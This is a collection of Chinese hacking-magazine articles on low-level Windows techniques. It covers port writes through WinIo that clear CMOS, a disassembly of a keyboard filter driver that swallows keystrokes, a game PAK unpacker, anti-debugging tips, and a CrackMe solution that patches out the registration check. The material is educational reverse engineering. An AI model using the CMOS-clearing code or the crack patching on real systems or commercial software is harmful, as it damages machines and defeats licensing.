我第一次编译 WinIO 获取 lib 文件的时候失败了，后来把 VS2008 重新修复了一遍编译成功，鉴于这种情况我给一个动态加载的方法。

```cpp
#include "stdio.h"
#include "windows.h"
#include ".\WinIo\Source\Dll\winio.h"
typedef bool (__stdcall *bRet1)();
typedef bool (__stdcall *bRet2)(WORD wPortAddr,DWORD dwPortVal,BYTE bSize);
typedef void (__stdcall *bVoid)();

int main()
{
    HMODULE h1 = ::LoadLibrary("WinIo32.dll");
    if(h1 != NULL)
    {
        bRet1 iz = (bRet1)::GetProcAddress(h1,"InitializeWinIo");
        bRet2 SPV = (bRet2)::GetProcAddress(h1,"SetPortVal");
        bVoid SD = (bVoid)::GetProcAddress(h1,"ShutdownWinIo");
        bool a = iz();
        if(a == 0) printf("WinIo 初始化失败");
        else {
            bool bReta = SPV(0x70,12224344,4);
            bool bRetb = SPV(0x71,34543534,4);
            if(bReta && bRetb) printf("successful");
            SD();
            ::FreeLibrary(h1);
        }
    }
    return 0;
}
```

```cpp
#include "stdio.h"
#include "windows.h"
#include ".\WinIo\Source\Dll\winio.h"
// ... 动态加载示例（左栏续）
```

小结：以上五个例子我都用清空 CMOS 方法证明我们的端口读/写成功了，都在 VMWare XP SP3 上面测试成功。大家有什么更好的方法可以加我 QQ 一起讨论：1037211560。

供测试的文件全都放在测试文件夹里，拖到虚拟机里执行就可以。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：汇编

关键词：键盘，过滤驱动，逆向


# 对一个键盘过滤驱动的逆向

文 Fireworm

偶然在硬盘上翻到了很久之前的一个过滤驱动，源码不知什么时候遗失了。出于研究的目的将这个驱动逆向了一下，若有错误还望大家多指教。

IDA 载入，在导入表中没有找到特别明显的标志。以 hex 模式查看驱动的时候，在 `00011150` 处发现以下内容：

```asm
.text:00011150    5C 00 44 00 65 00 76 00   69 00 63 00 65 00 5C 00    \\D.e.v.i.c.e\\
.text:00011160    4B 00 65 00 79 00 62 00   6F 00 61 00 72 00 64 00    K.e.y.b.o.a.r.d.
.text:00011170    43 00 6C 00 61 00 73 00   73 00 31 00 00 00 CC CC    C.l.a.s.s.1.
```

```asm
lea     ecx, [ebp+SymbolicLinkName]
push    ecx                ; DestinationString
call    ds:RtlInitUnicodeString
lea     edx, [ebp+DeviceObject]
push    edx                ; 驱动对象
push    0                  ; Exclusive
push    0                  ; DeviceCharacteristics
push    22h                ; DeviceType
lea     eax, [ebp+DestinationString]
push    eax                ; DeviceName
push    0                  ; DeviceExtensionSize
mov     ecx, [ebp+DriverObject]
push    ecx                ; DriverObject
call    ds:IoCreateDevice
mov     [ebp+var_1C], eax
cmp     [ebp+var_1C], 0
jge     short loc_10538
```

`Device\KeyboardClass1`，用百度查找一下可以知道这是键盘上层过滤驱动的。只要有 keyboard 类的驱动加载，kbdclass 就会自动 attach 到相应的设备堆栈上。

kbdclass 然后同时向底层的设备发送 `IOCTL_INTERNAL_KEYBOARD_CONNECT` 消息，意思是让底层设备记住一个回调函数。这样，底层设备（比如 8042 设备，中断得到一个键盘响应，就操作 kbdclass 提供的回调函数，把键盘操作的事件插入到队列里），csrss.exe 的 `Win32k!RawInputThread` 会不停地把事件取出来，然后转化成 Windows 事件。

驱动的开头如下：

这一段汇编码中，驱动定义了设备对象名并创建了此设备。任何内核驱动都可以用 `IoCreateDevice` 例程创建设备对象，创建成功后，这个函数返回分配的设备对象的指针。接下来跟踪到此处：

```asm
mov     eax, [ebp+DriverObject]
mov     dword ptr [eax+38h], offset sub_105A0
mov     ecx, [ebp+DriverObject]
mov     dword ptr [ecx+40h], offset sub_105A0
mov     edx, [ebp+DriverObject]
mov     dword ptr [edx+44h], offset sub_10B70
push    offset SourceString ; "\\Device\\HK_KBD" // 驱动名
lea     eax, [ebp+DestinationString]
push    eax                ; DestinationString
call    ds:RtlInitUnicodeString
push    offset aDosdevicesHk_k ; "\\DosDevices\\HK_KBD"
```

```asm
loc_1062D:
push    offset aDevice             ; "\\Device"
lea     eax, [ebp+DestinationString]
push    eax                        ; DestinationString
call    ds:RtlInitUnicodeString
mov     [ebp+ObjectAttributes.Length], 18h
mov     [ebp+ObjectAttributes.RootDirectory], 0
mov     [ebp+ObjectAttributes.Attributes], 40h
lea     ecx, [ebp+DestinationString]
mov     [ebp+ObjectAttributes.ObjectName], ecx
mov     [ebp+ObjectAttributes.SecurityDescriptor], 0
mov     [ebp+ObjectAttributes.SecurityQualityOfService], 0
lea     edx, [ebp+ObjectAttributes]
push    edx                        ; ObjectAttributes
push    0F000Fh                    ; DesiredAccess
lea     eax, [ebp+Handle]
push    eax                        ; DirectoryHandle
call    ds:ZwOpenDirectoryObject   ; 枚举驱动对象目录
mov     [ebp+var_78], eax
cmp     [ebp+var_78], 0
jge     short loc_1068C
```

`1068C` 的汇编代码如下：

```asm
loc_1068C:
push 4B594244h
push 1000h
push 1
call ds:ExAllocatePoolWithTag
mov [ebp+P], eax
push 4B594244h
push 1000h
push 1
call ds:ExAllocatePoolWithTag
mov [ebp+Context], eax
push 1000h
push 0
mov ecx, [ebp+P]
push ecx
call memset
add esp, 0Ch
push 1000h
push 0
mov edx, [ebp+Context]
push edx
call memset
add esp, 0Ch
xor eax, eax
mov [ebp+var_54], eax
mov [ebp+var_50], eax
mov [ebp+var_4C], eax
mov [ebp+var_48], eax
mov [ebp+var_34], 0
mov dword_11510, 0
```

综合以上两段代码，可得知驱动在 `IRP_MJ_CREATE` 请求中分配内存空间，并对所有的驱动对象进行了枚举。接下来的事情已经很明朗了：对每个驱动对象进行检查，匹配到特定的驱动程序。过滤驱动程序是中间层的驱动程序，它通过把自身挂接在驱动层中或者挂接到其他驱动程序上来拦截设备的 I/O 请求，通过 `IoAttachDevice` 或者 `IoAttachDeviceByPointer` 实现自身的挂接。

```asm
push offset aKeyboardclass ; "KeyboardClass"
lea ecx, [ebp+String2]
push ecx
call ds:RtlInitUnicodeString
push 0
lea edx, [ebp+String2]
push edx
mov eax, [ebp+String1]
push eax
call ds:RtlCompareUnicodeString
...
push offset aDeviceKeyboard ; "\\Device\\KeyboardClass0"
push offset aDeviceKeyboa_1 ; "\\Device\\KeyboardClass1"
push offset aDeviceKeyboa_0 ; "\\Device\\KeyboardClass2"
```

驱动通过 Unicode 编码比较 `keyboardclass` 字符，以此实现驱动对象的定位。笔者在这里有一点值得商榷，它分别比较了 `keyboardclass0`、`keyboardclass1`、`keyboardclass2`。

`keyboardClass0-2`，`keyboard0` 只支持 PS/2 键盘，如果附加到驱动层上也只能获得 PS/2 键盘的输入，而对 USB 键盘无能为力。USB 键盘的驱动名为 `\\Driver\\kbdhid`，使用 `IoGetDeviceObjectPointer` 也无法得到设备对象，因此这个驱动也有一定的不足之处。

```asm
mov edx, [ebp+TargetDevice]
mov dword_1151C, edx
mov ecx, [ebp+Object]
call ds:ObfDereferenceObject
push offset aSwkeyfltAttach ; "SwKeyFlt: Attach Device.\n"
call DbgPrint
add esp, 4
mov [ebp+var_4], 0
mov eax, [ebp+TargetDevice]
push eax
mov ecx, [ebp+SourceDevice]
push ecx
call ds:IoAttachDeviceToDeviceStack
mov TargetDevice, eax
cmp TargetDevice, 0
jz short loc_10931
mov ecx, [ebp+Irp]
mov dword ptr [ecx+18h], 0
mov edx, [ebp+Irp]
mov dword ptr [edx+1Ch], 0
xor dl, dl
mov ecx, [ebp+Irp]
call ds:IofCompleteRequest
```

在驱动的分发例程当中有如下代码：

```asm
push offset aSwkeyfltDispat ; "SwKeyFlt: DispatchRead Start\n"
call DbgPrint
add esp, 4
mov eax, [ebp+Irp]
mov ecx, [eax+60h]
mov [ebp+var_8], ecx
mov edx, [ebp+Irp]
mov eax, [edx+60h]
sub eax, 24h
mov [ebp+var_4], eax
mov esi, [ebp+var_8]
mov ecx, 9
mov edi, [ebp+var_4]
```

`IoCallDriver` 将参数 `Irp` 的 `+23 char CurrentLocation` 减 1，然后检查这时的 `CurrentLocation` 是否大于 0。如果不大于 0，将蓝屏。接着将参数 `Irp` 的 `+60 struct _IO_STACK_LOCATION *CurrentStackLocation` 减 `0x24`。这里原来是一个 `IO_STACK_LOCATION` 的地址，`0x24` 是一个 `IO_STACK_LOCATION` 结构的大小。这样减 `0x24` 就等于把 `+60 struct _IO_STACK_LOCATION *CurrentStackLocation` 指向了前一个 `IO_STACK_LOCATION`。然后将新的 `CurrentStackLocation` 的 `+14 struct _DEVICE_OBJECT *DeviceObject` 赋值为传入的参数 `DeviceObject`。

从传入的参数 `DeviceObject` 中获得该 `DeviceObject` 的 `DriverObject`，调用该 `DriverObject` 的新的 `CurrentStackLocation` 的 `+00 byte MajorFunction` 相应的 `MajorFunction`，用传入的两个参数 `IN PDEVICE_OBJECT DeviceObject`、`IN OUT PIRP Irp` 做参数。

```asm
push        1
push        1
push        1
mov         ecx, [ebp+arg_0]
push        ecx
push        offset sub_10CD0 ; IoSetCompletionRoutine
mov         edx, [ebp+Irp]
push        edx
call        sub_10BF0
mov         edx, [ebp+Irp] ; Irp
mov         ecx, TargetDevice ; DeviceObject
call        ds:IofCallDriver
```

```asm
mov         eax, [ebp+Irp]
mov         cl, [eax+23h]
add         cl, 1
mov         edx, [ebp+Irp]
mov         [edx+23h], cl
mov         eax, [ebp+Irp]
mov         ecx, [eax+60h]
; IoSkipCurrentIrpStackLocation
add         ecx, 24h
mov         edx, [ebp+Irp]
mov         [edx+60h], ecx
mov         edx, [ebp+Irp] ; Irp
mov         ecx, TargetDevice ; DeviceObject
call        ds:IofCallDriver
mov         [ebp+var_4], eax
```

之后驱动再调用 `IoSetCompletionRoutine` 建立一个完整的完成例程，这个例程究竟做了些什么呢？往下看：

驱动的所作所为已经很明显了，驱动先将自身附加到驱动层上，和键盘挂钩，同时截获键盘对象的 IRP，跳过所有的 IRP，这样驱动一旦加载上去，任何按键发送的 IRP 都将被截获，从而使得按键无效。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：汇编

关键词：游戏，汉化，逆向

# 一款游戏资源解包工具的开发始末


图/文  网事如风

## 开发原因

最近为了支持下汉化游戏，加入了一个汉化组做技术，主要的工作就是解包游戏资源，提取其中的资源文本交给翻译人员来翻译，因此我就将自己一次分析游戏资源包格式到写出解包程序的过程整理成文，与大家共享。

我们今天的目标是一款名为《夜神任务：同心同灵》的游戏，下载地址：http://www.verycd.com/topics/2854279/。游戏并不大，这样利于我们由浅入深地进行学习。

分析游戏用到的工具如下：

- 1. 查壳工具 PEiD，同时还要用它来识别程序中使用的压缩算法。
- 2. 调试器 OD 1.10。
- 3. 静态反汇编工具 IDA。
- 4. 16 进制编辑器 WinHex。

最后要用一种编程语言写出自己的解包工具，为了锻炼自己的汇编语言编程能力，开发语言我选择了 Win32 汇编，使用了汇编的 IDE——Radasm 和汇编的 SDK——MASM32 v10。大家只要明白了资源文件的结构，可以选用自己所擅长的编程语言来写解包器。

## 静态分析

安装完游戏之后，在游戏的根目录我们能看到如图1所示的几个文件和目录，从大小和名字来看，可以很容易地确定资源文件是放在 DataPC 文件夹中的。


图1

在 DataPC 文件夹中有三个比较大的 PAK 文件，这三个文件就是游戏的资源包了，也就是我们要解包的对象。在很多情况下 PAK 文件是可以用 WinRAR、好压或者 7z 解压的，这类 PAK 文件用 WinHex 之类的十六进制打开后可以发现开头的两个字母都是“PK”，而且右键菜单中会有用 WinRAR 之类的压缩软件解压的选项。但是这个游戏的资源文件不属于这种类型（是的话就不会有这篇文章了）。我们用 WinHex 打开三个 PAK 文件，找一下三个文件的共同特征，首先会发现文件开头部分格式比较相似，都是以“KCAP”四个字母开头，这应该是这类文件的一个标志，后面是一个 HEX 值为 `00 00 00 01` 的双字，用途未知，从偏移 `0xC` 开始到 `0x1F` 处都是 0，只有 `0x8` 偏移处的一个双字有所不同，都在偏移 `0x20` 处开始有格式比较相同的数据，如图2所示。


图2

在这里，我们可以假定前面 `20h` 个字节的内容为固定的文件头大小，继续往下看，会发现三个 PAK 文件都是些以 HEX 值为 `78 9C` 开头的数据块，这些数据块大多数都是长度不定，并以不定数量个 0 结尾。到接近末尾的时候，才出现一些不一样的数据。这些数据中还包括一些可读字符，看起来应该是文件名，而且每隔 `0x120` 字节就是下一个文件名，直到文件结束。文件名的后面是长串的 0，应该是填充文件名缓冲区的。在从文件名开头往后 `0x100` 字节处开始出现其他信息，但是目前还不知道这些信息是做什么的，最后的 16 字节也全都是 0。如图3所示。


图3

根据上面的分析，可以大体推断这种 PAK 文件由三部分组成：第一部分从偏移 0 到 `0x1F` 处是文件头；第二部分是包含了大量以 HEX 值为 `78 9C` 开头的数据块的部分，则是保存资源压缩后数据的部分；最后的部分应该是每一个文件的信息，应该根据这些信息将压缩后的数据解压。当然这些都是猜测，只有实践后才会知道猜测是否正确。

通过这些分析，我们可以先简单地定义出表示这些部分的结构体，暂时作用未知的部分就叫做 `UnKnown`：

```asm
; 文件头部分
HEAD STRUCT
    dwFlag      DWORD    ?
    dwUnKnown1  DWORD    ?
    dwUnKnown2  DWORD    ?
    dwZero      DWORD    5 dup(?)
HEAD ENDS
```

```asm
; 文件信息部分
FILEINFO STRUCT
    szFileName  BYTE     100h dup(?)
    dwUnKnown1  DWORD    ?
    dwUnKnown2  DWORD    ?
    dwUnKnown3  DWORD    ?
    dwUnKnown4  DWORD    ?
    dwZero      DWORD    4 dup(?)
FILEINFO ENDS
```

好，初步静态分析过程已经完成，但是还有很多地方没搞明白，这就需要我们动态跟踪下游戏程序了。

## 动态跟踪

跟踪前，先用 PEiD 查一下壳，显示 `Microsoft Visual C++ 8.0*`，应该没加壳。前面分析有很多数据块，并且开头都是 `78 9C`，说明文件是被压缩了。我们可以用 PEiD 的插件 Krypto ANALyzer 看程序中使用了哪些加密或者压缩算法，结果找到以下这些算法：

- ADLER32 :: 00233292 :: 00633E92
- ADLER32 :: 00233446 :: 00634046
- CRC32 :: 0028CD58 :: 0068E158
- CRC32b :: 0027DCE8 :: 0067F0E8
- ZLIB deflate [word] :: 0028CC2C :: 0068E02C

ADLER32 和 CRC32 应该是用来校验文件的。ZLIB 是游戏资源包压缩常用算法，而且压缩后文件开头标志就是 `78 9C`，所以可以确定这个游戏是先用 zlib 算法将文件压缩，然后放到一个大文件（PAK）中的。

接下来就该 OD+IDA 分析文件结构中还没搞明白的地方。OD 载入游戏主程序，先按 Ctrl+N 查看调用的文件相关 API，发现有 `CreateDirectoryA`、`CreateFileA`、`ReadFile`、`SetFilePointer`、`WriteFile`。先都不上断点，F9 后程序断在 `CreateFileA` 上，从堆栈看参数如下：

```text
0012F5A4 0061A407 /CALL to CreateFileA
0012F5A8 0012F7C8 |FileName = "DataPC/DataCommon.pak"
0012F5AC 80000000 |Access = GENERIC_READ
0012F5B0 00000003 |ShareMode = FILE_SHARE_READ|FILE_SHARE_WRITE
0012F5B4 0012F5D0 |pSecurity = 0012F5D0
0012F5B8 00000003 |Mode = OPEN_EXISTING
0012F5BC 00000080 |Attributes = NORMAL
0012F5C0 00000000 |hTemplateFile = NULL
```

按 Ctrl+F9 返回，到 IDA 看这个地方做了什么，发现较复杂，如图4。查看函数名发现是 C 库函数 `_fsopen_nolock`。继续按 Ctrl+F9 并在 IDA 观察函数名，发现程序实际调用的是 `fopen`，下面还有 `fseek`、`ftell`、`rewind`。

按 F9 后会在 `SetFilePointer` 上中断三次，分别对应 `fseek`、`ftell`、`rewind` 调用；继续按 F9 会在 `ReadFile` 上中断，这应当就是 `fread` 调用。

Ctrl+F9 组合键返回多次，找到是在 `004317AA` 处调用的 `fread`。


分别在 `fopen`、`fseek`、`ftell`、`rewind`、`fread` 上下断点，并把 API 上断点去掉。重新载入游戏，按 F9 运行。中断到 `fopen`，参数显示以 `"rb"` 方式打开了 `"DataPC/DataCommon.pak"`。按 Ctrl+F9 返回值是 `006C6C60h`。

继续按 F9，中断到 `fseek`，从堆栈看参数是：

```text
0012F700 0043170D RETURN to NyxQuest...
0012F704 006C6C60
0012F708 00000000
0012F70C 00000002
还原成 C：fseek(0x006C6C60, 0, SEEK_END);
```

可以看出是将 `DataPC/DataCommon.pak` 的指针移动到文件最后。继续按 F9 中断到 `ftell`，参数是：

```text
0012F708 0043171F RETURN to NyxQuest...
0012F70C 006C6C60
还原成 C：ftell(0x006C6C60);
```

这个函数返回当前文件指针位置。Ctrl+F9 后返回值是 `013DD0C0h`，用 WinHex 打开 `DataPC/DataCommon.pak`，发现指向文件末尾。继续按 F9，中断到 `rewind`，参数是：

```text
0012F708 0043173A RETURN to NyxQuest...
0012F70C 006C6C60
```

这个函数又将文件指针设置回了文件开头（有意思么？）。

继续 F9，在 `fread` 上断下来了，参数如下：

```text
0012F8F4  004317AF  RETURN to
NyxQuest.004317AF from NyxQuest.005F4FBD
0012F8F8  0012FAA4 ;将读取的东西放到这个缓冲区
0012F8FC  00000001 ;size 为 1，以字节为单位读取
0012F900  00000020 ;读取的大小为 20h 字节
0012F904  006C6C60 NyxQuest.006C6C60，读取的是前面 fopen 打开的 DataCommon.pak
```

按 Ctrl+F9 组合键，然后在 OD 的内存窗口看下 `0012FAA4` 位置到底读了些什么，结果发现就是我们定义为 `HEAD` 结构体的部分。继续按 F9 键，又中断到了 `fseek`，参数如下：

```text
0012F8F8  00431828  RETURN to
NyxQuest.00431828 from NyxQuest.005F5370
0012F8FC  006C6C60 NyxQuest.006C6C60
0012F900  013D4F60
0012F904  00000000
还原成 C 就是 fseek(0x006C6C60, 0x013D4F60, SEEK_SET);
```

在 WinHex 里面看看这个 `0x013D4F60` 位置是什么，结果发现是第一个文件名的开头。那么这个值是如何来的呢？我们在 IDA 中逆着向上看，发现这个值有可能从两个地方来，用 OD 在 `0x00430621` 这个跳转处下断点，重新载入，看一下到底是执行了哪个分支，结果发现跳转并没有执行，所以这个值是 `00430627: E8 C40A0000 CALL 004310F0` 这条指令调用函数的返回值，然后在下面经过多次传递后又乘以 `120h` 所得到的。这个函数有一个参数，从 OD 中看这个参数是一个指针，指向读取到内存中的 PAK 文件的偏移 `0x8` 处的一个 DWORD，也就是 `HEAD` 中的第三个 DWORD，而这个函数的作用就是将这个值每个字节从后往前排，并把得到的值返回（感觉好乱啊）。举个例子，比如 `DataCommon.pak` 的 `HEAD` 中的第三个双字在 WinHex 中看是 `00 00 00 73`，经过转换之后就是 `73 00 00 00`（这个转换是在 `0x00430627` 处调用一个函数转换的），在程序中读取后就是 `73h`，乘以 `120h` 就是 `80160h`；而 `DataExt.pak` 中的这个位置是 `00 00 03 D7`，转换后就是 `D7 03 00 00`，在程序中读取后就是 `3D7h`，乘以 `120h` 就是 `451E0h`。

继续按 F9 键，中断到了 `fread` 上，参数如下：

```text
0012F8F4  004317AF  RETURN to
NyxQuest.004317AF from NyxQuest.005F4FBD
0012F8F8  013055D8  ASCII ...
0012F8FC  00000001
0012F900  00008160
0012F904  006C6C60 NyxQuest.006C6C60
```

可以看出来这里把所有的文件信息部分都读取到了内存。

分析到了这里，我们已经可以不用再分析了，已经完全可以靠猜测加测试搞定。根据分析结果，`HEAD` 结构体可以重新定义成这样：

```asm
HEAD STRUCT
  dwFlag         DWORD ?
  dwUnknown1     DWORD ?
  dwFileInfoSize DWORD ?
  dwZero         DWORD 5 dup(?)
HEAD ENDS
```

再看 DataPC.PAK 文件的文件信息部分的第一个 `FILEINFO` 结构体，最开始的 `100h` 字节是文件名，往后的有数据的双字则是重点，它们应该包含文件名所指的这个文件在这个 PAK 包中的大小、偏移等信息。经过试验发现第二个双字经过反转（同上面方法一样）之后（不再乘以 `120h`）是这个文件压缩后的数据大小，因为 zlib 解压的时候要求输入解压完的文件大小，这个大小一般都是在压缩之前保存好的；而正好第一个双字的数值大小经过反转（不乘以 `120h`）后大小比较合适，就假设它是文件的大小。第三个双字反转后则是这个文件在 PAK 中的偏移，但是这个偏移没有什么太大用处，因为每个文件之间都是没有空隙的，读取完了一个直接读取下一个就可以了。由于剩下的部分都是一样的，可以不用在乎。这样可以把 `FILEINFO` 重新修改成这样：

```asm
FILEINFO STRUCT
  szFileName      BYTE 100h dup(?)
  dwExpFileSize   DWORD ?
  dwCompFileSize  DWORD ?
  dwOffset        DWORD ?
  dwUnKnown       DWORD 5 dup(?)
FILEINFO ENDS
```

文件数据结构的分析就到这里了。要完整了解这个 PAK，还需要很多工作要做，不过对于编写一个解包器，以上的分析就足够了。

## 编程实现

根据分析所得的这些信息，写一个解包程序就不难了，大体流程如下。

- 1. 读取文件的 `HEAD`，检查 `HEAD.dwFlag` 是否为 `5041434Bh`，不是则说明不是我们分析的格式的 PAK 文件，不再往下执行。
- 2. 读取 `HEAD.dwFileInfoSize`，然后按照前面说的方法计算出文件信息部分的大小。在 `WM_COMMAND` 消息处理逻辑中的相关代码如下。

```asm
invoke SendDlgItemMessage,hWin,LST_INFO,LB_RESETCONTENT,0,0
invoke RtlZeroMemory,addr @stOF,sizeof @stOF
mov @stOF.lStructSize,sizeof @stOF
...
invoke GetOpenFileName,addr @stOF
.if eax
    invoke CreateFile,offset szFileName,GENERIC_READ,...
    invoke GetFileSize,eax,NULL
    mov dwFileSize,eax
    invoke CreateFileMapping,hFile,NULL,PAGE_READONLY,0,0,NULL
    invoke MapViewOfFile,eax,FILE_MAP_READ,0,0,0
    mov dwBaseAddress,eax
    assume eax:ptr HEAD
    .if [eax].dwFlag!=PACK
        invoke MessageBox,hWin,CTXT("不支持的 PAK 格式"),0,MB_OK
        invoke EndDialog,hWin,0
    .endif
    mov ebx,[eax].dwFileInfoSize
    ...
.endif
```

```asm
mov byte ptr dwFileInfoSize[2],bh
shr ebx,16
mov byte ptr dwFileInfoSize[1],bl
...
mov ebx,dwBaseAddress
add ebx,dwFileSize
mov @dwMaxOffset,ebx
imul eax,dwFileInfoSize,120h
sub ebx,eax
mov @dwFilePoint,ebx
assume ebx:ptr FILEINFO
.while ebx<@dwMaxOffset
    invoke SendDlgItemMessage,hWin,LST_INFO,LB_ADDSTRING,0,addr [ebx].szFileName
    add ebx,sizeof FILEINFO
.endw
assume ebx:nothing
```

- 3. 用一个大的循环读取文件的信息，根据信息用 zlib 的解压函数解压数据，并将数据写到文件中。

```asm
ExportProc proc uses ebx esi edi,lParam
LOCAL @dwMaxOffset,@Buffer[110]:BYTE,@szFileName[MAX_PATH]:BYTE
LOCAL @dwNumberOfBytesWritten,@szPath[MAX_PATH]:BYTE
LOCAL @szCreatePath[MAX_PATH]:BYTE
LOCAL @dwError,@lpDest,@dwSuccess,@dwFilePoint
...
invoke _BrowseFolder,lParam,addr @szPath
.if eax
    push dwBaseAddress
    pop @dwFilePoint
    add @dwFilePoint,20h
    mov ebx,dwBaseAddress
    add ebx,dwFileSize
    mov @dwMaxOffset,ebx
    imul eax,dwFileInfoSize,120h
    sub ebx,eax
    assume ebx:ptr FILEINFO
    .while ebx<@dwMaxOffset
        invoke wsprintf,addr @szFileName,CTXT("%s\\%s"),addr @szPath,addr [ebx].szFileName
        invoke Replace,addr @szFileName
        invoke CreateFile,addr @szFileName,GENERIC_WRITE,FILE_SHARE_READ,NULL,CREATE_ALWAYS,FILE_ATTRIBUTE_NORMAL,NULL
        ...
    .endw
.endif
```

```asm
invoke InitOutputPath,addr @szFileName,addr @szCreatePath
invoke SHCreateDirectoryEx,lParam,addr @szCreatePath,NULL
invoke CreateFile,addr @szFileName,GENERIC_WRITE,FILE_SHARE_READ,NULL,CREATE_ALWAYS,FILE_ATTRIBUTE_NORMAL,NULL
.if eax==-1
  inc @dwErro
  invoke SetDlgItemInt,lParam,STC_ERROR,@dwErro,FALSE
  jmp CONTINUE
.endif
mov hCreateFile,eax

; 保存创建文件句柄
; 计算导出后文件（实际文件）大小
mov eax,[ebx].dwRealSize
mov byte ptr dwExpFileSize[3],al
mov byte ptr dwExpFileSize[2],ah
shr eax,16
mov byte ptr dwExpFileSize[1],al
mov byte ptr dwExpFileSize,ah

invoke GlobalAlloc,GPTR,dwExpFileSize
.if eax
  mov @lpDest,eax
.endif

; 计算未解压缩前数据大小
mov eax,[ebx].dwFileSize
mov byte ptr dwSrcFileSize[3],al
mov byte ptr dwSrcFileSize[2],ah
shr eax,16
mov byte ptr dwSrcFileSize[1],al
mov byte ptr dwSrcFileSize,ah

; 调用 zlib 的解压函数
invoke uncompress,@lpDest,offset dwExpFileSize,@dwFilePoint,dwSrcFileSize
```

```asm
; 将解压后的数据写入文件
invoke WriteFile,hCreateFile,@lpDest,dwExpFileSize,addr @dwNumberOfBytesWritten,NULL
.if eax
  inc @dwSuccess
  invoke SetDlgItemInt,lParam,STC_SUCCESS,@dwSuccess,FALSE
  jmp CONTINUE
.else
  inc @dwErro
  invoke SetDlgItemInt,lParam,STC_ERROR,@dwSuccess,FALSE
.endif

invoke CloseHandle,hCreateFile
invoke GlobalFree,@lpDest

CONTINUE:
mov eax,dwSrcFileSize
add @dwFilePoint,eax
add ebx,sizeof FILEINFO
.endw

assume ebx:nothing
invoke MessageBox,lParam,CTXT("导出完成！！"),CTXT("完成！"),MB_OK
ret
ExportProc endp
```

限于篇幅就不将其他代码贴出来了，具体实现代码请看附件。

希望本文能为想自己修改汉化游戏的朋友带来一点帮助，这方面的技术我也是初学，如有疏漏在所难免，希望大家不吝赐教。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：汇编

关键词：汇编，破解，软件


# 反程序破解的一种方法

图/文 腾袭

由于国人知识产权的意识较薄弱，很多高价软件在网络上都能找到所谓的破解版，而且这破解版不仅仅被破解了，还可能修改了一些公司、作者之类的信息，这就会给软件的制作者或者制作公司带来极大的困扰……直接造成了一个恶性循环。

为了摆脱这种丑陋的循环，笔者正试图寻找一种能防止程序被破解的途径。众所周知，反破解一般有两种方法，第一种是在程序代码上下功夫……第二种是在程序编译完成后做的，比如像加壳之类的。

相信大家对加壳这种方法也比较了解了，但是只要程序可以在系统中运行，那么壳始终都是有脱下来的方法，而脱下来后仍可以轻松修改汇编代码。因此，我们必须在程序内部中做点手段才能防止程序被破解。

众所周知，很多破解是从字符串开始着手的，而我们一般在 C++ 中使用字符串是直接写在函数参数中，而不是使用字符串指针，例如：

```cpp
MessageBoxW(NULL, L"验证失败", L"错误", MB_OK | MB_ICONERROR);
```

这样，如果我们在 Ollydbg（OD）中打开，一下子就可以找到对应的代码，如图 1 所示。


图 1

这样，我们可以通过修改汇编代码轻易地跳过这段代码，或者修改显示的内容等等。

假如我们现在使用另一种方法调用函数，通过字符串的函数指针，像这样（使用了一点无意义的汇编是为了防止编译器优化代码，导致看不出效果）：

```cpp
LPCWSTR text, title;
__asm {
    mov text, 0
    mov title, 0
};
text = L"验证失败";
title = L"错误";
MessageBoxW(NULL, text, title, MB_OK | MB_ICONERROR);
```

这时，我们点开 OD 看看，如图 2 所示。


图 2

原来可以直接看到的字符串已经消失了。但是，这种办法我们只用搜一下字符串对应的二进制数据就可以找到文本，从而进行文本的篡改了。

这时，笔者想到了加密字符串的方法，常用的就是 Base64 的算法了，但是 Base64 就算加密后还是很容易被找到对应的 ASCII 字符的密文和密钥，从而进行修改破解。因此，我们需要一个可以便于加密和管理字符串的方法。由此，笔者再次想到了压缩数据。不管用 zlib 或者 lzma 算法都可以很方便地压缩和解压缩字符串，我们只需要建立一张对应的字符串表就行了，同时我们要尽量保证字符串压缩解压缩算法不被轻易猜出来就行了。详细过程见附件，这里就不深入了。

但是，问题又来了。我们很好地已经将字符串保护了起来，但是如果破解者在函数处下断点怎么办。这时我认为需要在函数前面包裹一下，或者给函数下个钩子，在执行函数前先检查有没有调试器的存在，如果有，那我们必须做一些伪装或者干脆不执行这个函数。

但是请注意，检查是否有调试器存在最好不要直接调用 IsDebuggerPresent，这是一种极其愚蠢的做法，我们检查是否有调试器存在一般有以下几种方法。

- 1. 检查 FS 寄存器，跳转到 FS[0]，再查看 FS[30] 单元，这个 DWORD 是一个地址，转进去，第二个字节就是指有没有附加调试器。
- 2. 检查 TIB（Thread Information Block）中的一些相关信息。
- 3. 检查是否有调试器的进程或窗体，这种方法虽然不怎么准确，但是可以防患于未然。

由于 FS 寄存器那里的指向地址可以被修改，这种方法也不一定准确。但是如果用检查线程信息块的方法太繁琐了，很容易就被发现并修改了，检查进程和窗体虽然有点不靠谱，但是还算是一种通用的方法。看大家的取舍了。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：汇编  
关键词：破解，CrackMe，汇编

# 记一个有趣的 CrackMe


图/文 woosheep

国庆长假前的心情总是说不清楚，于是随手捡了个 CrackMe 程序，发现竟也是个说不清楚的货——那种似懂非懂的感觉着实让人喜爱。话不多说，先看第一部分，似懂。老规矩，先点击运行，如图 1 所示。


如果留空，点击“确定”按钮会提示“用户名太短”。随便填些信息，就会提示“注册失败”。

OK，黑盒信息收集完毕，上 OD。载入，直接搜索字符串，找到这里，如图 2 所示。


看看，“用户名太短”和“注册失败”一应俱全，想必这就是提示字符串的保存区域。根据真值定理——一条条件为真（注册成功）的分支通常在条件为假（注册失败）的分支的附近，应该就能坐着火车唱着歌、轻松愉快地找到可以爆破的地方。果然：

# SECRET OF CRACK（栏目缩写）icefire

```asm
00401942  test eax,eax
00401944  jnz short 00401959
00401946  push 40
00401948  push 00418574
...
0040194D  push 00418568    ; 注册成功!
00401952  push 1000
00401957  jmp short 0040196A
00401959  push 10          ; Style
MB_OK|MB_ICONHAND|MB_APPLMODAL
0040195B  push 00418560    ; 失败
00401960  push 00418554    ; 注册失败!
00401965  push 2000        ; hOwner=00002000
0040196A  call dword ptr [<&USER32.MessageBoxA>] ; MessageBoxA
```

还用多说吗？0x00401946 处和 0x0040195B 处分别填入注册成功和注册失败的提示字符串，最后都调用 MessageBoxA 弹框，而 0x00401944 处则是横跨二者的跳转。正确、错误分支和条件跳转三道菜都上齐了，最简单的应该是把 0x00401944 处的条件跳转 NOP 掉。

